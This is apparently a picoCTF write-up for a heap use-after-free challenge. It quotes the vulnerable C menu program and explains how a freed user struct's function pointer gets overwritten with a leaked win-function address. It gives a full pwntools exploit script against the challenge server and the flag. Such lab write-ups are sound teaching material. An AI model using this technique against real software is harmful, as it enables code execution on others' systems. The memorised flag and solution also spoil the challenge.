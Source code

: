> Check out my new video-game and spaghetti-eating streaming channel on Twixer! program and get a flag. source nc mercury.picoctf.net 6312

## Find the vulnerability

We see that this is basically almost a CRUD (Create, Read, Update, Delete) menu.

```c
void printMenu(){
 	puts("Welcome to my stream! ^W^");
 	puts("==========================");
 	puts("(S)ubscribe to my channel");
 	puts("(I)nquire about account deletion");
 	puts("(M)ake an Twixer account");
 	puts("(P)ay for premium membership");
	puts("(l)eave a message(with or without logging in)");
	puts("(e)xit");
}
```

We see that we have the option to delete our account (I), create an account(M), create a message (M).

We see that in (S), the program will leak the address of `hahaexploitgobrrr`, the win function.

```c
void hahaexploitgobrrr(){
 	char buf[FLAG_BUFFER];
 	FILE *f = fopen("flag.txt","r");
 	fgets(buf,FLAG_BUFFER,f);
 	fprintf(stdout,"%s\n",buf);
 	fflush(stdout);
}
...
void s(){
 	printf("OOP! Memory leak...%p\n",hahaexploitgobrrr);
 	puts("Thanks for subsribing! I really recommend becoming a premium member!");
}
```

P doesn't really do anything but print a string.

```c
void p(){
  	puts("Membership pending... (There's also a super-subscription you can also get for twice the price!)");
}
```

Let's try to find the vulnerability. 

Within case 'M',  we see a reference to a getsline() function and a call to malloc:

```c
case 'M':
 	user->whatToDo = (void*)m;
	puts("===========================");
	puts("Registration: Welcome to Twixer!");
	puts("Enter your username: ");
	user->username = getsline();
...
char * getsline(void) {
	getchar();
	char * line = malloc(100), * linep = line;
	size_t lenmax = 100, len = lenmax;
	int c;
	if(line == NULL)
		return NULL;
	for(;;) {
		c = fgetc(stdin);
		if(c == EOF)
			break;
		if(--len == 0) {
			len = lenmax;
			char * linen = realloc(linep, lenmax *= 2);

			if(linen == NULL) {
				free(linep);
				return NULL;
			}
			line = linen + (line - linep);
			linep = linen;
		}

		if((*line++ = c) == '\n')
			break;
	}
	*line = '\0';
	return linep;
}
```

Ok, so we have a call to malloc, and a call to free in the I option, when we try to inquire about acount deletion:

```
void i(){
	char response;
  	puts("You're leaving already(Y/N)?");
	scanf(" %c", &response);
	if(toupper(response)=='Y'){
		puts("Bye!");
		free(user);
	}else{
		puts("Ok. Get premium membership please!");
	}
}
```

So what now? Well, remember the fact that we can leave a message? We also have a call to malloc

```
void leaveMessage(){
	puts("I only read premium member messages but you can ");
	puts("try anyways:");
	char* msg = (char*)malloc(8);
	read(0, msg, 8);
}
```

Why is this important you may ask? Well, two pointers call malloc, and if open pointer is free'd without being reallocated then if we allocate data using malloc, that free'd pointer will reference that newly allocated data! 

Why is this bad? 

Well, when we do the menu options, we actually use the "user" as an address stored, and whatToDo will call it. And remember, both user and leave a message are both using malloc, with user being able to be freed.

```
void doProcess(cmd* obj) {
	(*obj->whatToDo)();
}

and we can just call `P` since it doesn't do anything at all!

```
case 'P':
	user->whatToDo = (void*)p;
```

So here's the steps

1. Get the win address
2. Allocate 4 bytes (represents the 32-bit address we will use to overwrite the data) to user
3. Free user
4. Write the win address to write line
5. Call an option so the code will call the pointer which will be the win address

Here's the solve script:

```python
from pwn import *
from pwn import p32

elf = ELF('./vuln')

if args.REMOTE:
    r = remote('mercury.picoctf.net', 6312)
else:
    r = process(elf.path)

#define variables

def get_win_addr():
    r.sendline(b"S")
    r.recvuntil(b"leak...")
    win_addr = int(r.recvuntil("\n").rstrip(), 16)
    log.info("Got win addr: " + hex(win_addr))
    return win_addr

def create_account():
    r.sendline(b"M")
    payload = b'A'*4
    r.sendline(payload)

def delete_account():
    r.sendline(b"I")
    r.sendline(b"Y")

def leave_message(win_addr):
    r.sendline(b"l")
    r.recvuntil(b"anyways:")
    # Debug print
    log.info(f"Sending win addr: {hex(win_addr)}")
    r.send(p32(win_addr))
    log.info("Sent message")

#first get the win address
win = get_win_addr()
#allocate data to the account
create_account()
#free
delete_account()
#leave_message -> write in the address that will also be used by user pointer in malloc even if free'd
leave_message(win)
#something??
r.sendline(b"P")
r.interactive()
```
- the flag might be a little up at the top or in the middle of the menu

```picoCTF{d0ubl3_j30p4rdy_ad77070e}```